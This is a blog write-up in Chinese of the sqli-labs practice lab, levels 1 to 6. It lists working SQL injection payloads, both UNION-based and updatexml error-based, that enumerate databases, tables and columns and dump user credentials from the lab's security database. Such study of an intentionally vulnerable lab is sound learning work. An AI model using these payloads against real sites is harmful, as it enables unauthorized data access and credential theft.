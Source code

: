 # sqli-lab解题过程

### less-1

* 根据提示输入?id=1
  ![](https://blog.chrizsty.cn/wp-content/uploads/2024/11/屏幕截图-2024-11-24-173515.png)

  发现有回显，下一步就可以尝试联合注入。

* 构造闭合?id=1\，得到报错信息
  ```mysql
  You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1\' LIMIT 0,1' at line 1
  //我看网上都很少有人详细分析报错信息，导致我在这里卡了半天
  //''1\' LIMIT 0,1'这样的信息要先去掉''这个报错固定句式，剩下'1\' LIMIT 0,1
  //自己己输入的是1\，那么就可以确定这个sql语句后面为‘$_id’ LIMIT 0,1
  ```

  所以构造闭合?id=1‘ --+

* 判断列数
  ```mysql
  ?id=1' order by 1 --+
  ?id=1' order by 2 --+
  ?id=1' order by 3 --+
  ?id=1' order by 4 --+ //开始报错，可以判断列数为3
  ```

* 构造联合语句，并且判断回显是哪几列
  ```mysql
  ?id=null' union select 1,2,3 --+ 
  //这里需要union前面的语句不返回数据才行，所以我用的是null
  ```

  ![](https://blog.chrizsty.cn/wp-content/uploads/2024/11/屏幕截图-2024-11-24-180657.png)
  可知第2，3列会回显数据

* 爆库名

  * 当前库
    ```mysql
    ?id=null' union select 1,database(),3 --+
    ```

    ![](https://blog.chrizsty.cn/wp-content/uploads/2024/11/屏幕截图-2024-11-24-181152.png)

    可知当前库是security

  * 所有库

    ```mysql
    ?id=null' union select 1,group_concat(schema_name),3 from information_schema.schemata --+
    ```

    ![](https://blog.chrizsty.cn/wp-content/uploads/2024/11/屏幕截图-2024-11-24-181745.png)

    可知知道所有库information_schema,challenges,mysql,performance_schema,security，下述以security为例做wp

* 爆表名

  ```mysql
  ?id=null' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema="security" --+
  //这里where就是用来指定库名
  ```

  ![](https://blog.chrizsty.cn/wp-content/uploads/2024/11/屏幕截图-2024-11-24-182126.png)

  得到security库下所有表emails,referers,uagents,users，以users表做例子来写wp

* 爆列名
  ```mysql
  ?id=null' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema="security" and table_name="users" --+
  //这里where同时确定库名也确定表名，防止串库查询
  ```

  ![](https://blog.chrizsty.cn/wp-content/uploads/2024/11/屏幕截图-2024-11-24-182536.png)

  得到该表下的所有列名id,username,password

* 查询数据

  ```mysql
  ?id=null' union select 1,group_concat(username),group_concat(password) from users  --+
  ```

  ![](https://blog.chrizsty.cn/wp-content/uploads/2024/11/屏幕截图-2024-11-24-182818.png)

### less-2

没有闭合方式，做法与上类似

### less-3

闭合方式为`('$_id')`，做法与上类似

### less-4

闭合方式为`("$_id")`，做法与上类似

### less-5

* 按提示输入`?id=1`
  ![](https://blog.chrizsty.cn/wp-content/uploads/2024/11/屏幕截图-2024-11-24-224014.png)

  发现没有回显，同时尝试构造闭合`?id=1\`
  ![](https://blog.chrizsty.cn/wp-content/uploads/2024/11/屏幕截图-2024-11-24-224138.png)

  发现有报错信息且是''闭合，开始尝试报错注入

* 判断注入点

  ```mysql
  ?id=1' and 1=1 --+
  ?id=1' and 1=2 --+ //不显示页面
  ```

* 报错注入爆库名
  ```mysql
  ?id=1' and updatexml(1,concat(0x7e,database(),0x7e),3) --+
  //updatexml()有一个致命缺陷，如果在要更新的节点路径里面出现了特殊符号就会报错，而第该参数里的信息都会暴露在报错里，这也是报错注入的主力
  //concat()函数，将字符串连接起来
  ```

  ![](C:\Users\Chrizsty\AppData\Roaming\Typora\typora-user-images\image-20241124225815911.png)

  知道库名是security

* 爆表名（与上类似）

  ```mysql
  ?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema="security" limit 3,1),0x7e),3) --+
  //这里如果没有limit限制输出数量，会导致出现“Subquery returns more than 1 row”
  ```

  ![](https://blog.chrizsty.cn/wp-content/uploads/2024/11/屏幕截图-2024-11-24-230446.png)

  确定表名users

* 爆列名
  ```mysql
  ?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="users" ),0x7e),3) --+
  ```

  ![](https://blog.chrizsty.cn/wp-content/uploads/2024/11/屏幕截图-2024-11-24-230842.png)

  拿到列名

* 爆数据
  ```mysql
  ?id=1' and updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),3) --+
  ```

  ![](https://blog.chrizsty.cn/wp-content/uploads/2024/11/屏幕截图-2024-11-24-231817.png)

### less-6

（布尔盲注，因为报错信息不显示）

### 后面还没学会

